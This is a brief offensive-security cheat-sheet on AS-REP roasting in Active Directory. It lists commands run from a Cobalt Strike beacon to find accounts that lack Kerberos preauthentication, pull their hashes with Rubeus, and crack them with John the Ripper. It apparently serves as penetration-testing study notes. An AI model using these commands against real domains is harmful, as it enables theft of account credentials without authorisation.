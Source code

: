 # ASREP Roasting

## Introduction

AS-REP _roasting_ is a technique that allows retrieving password hashes for users that have Do not require Kerberos preauthentication property selected.

## Enumerate Users

```sh
beacon> execute-assembly C:\Tools\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
 --attributes cn,distinguishedname,samaccountname
```

## Rubeus /asreproast

```sh
beacon> execute-assembly C:\ToolsRubeus.exe asreproast /user:squid_svc /nowrap
```

## Crack Passwords

```sh
$ john --format=krb5asrep --wordlist=wordlist squid_svc
```
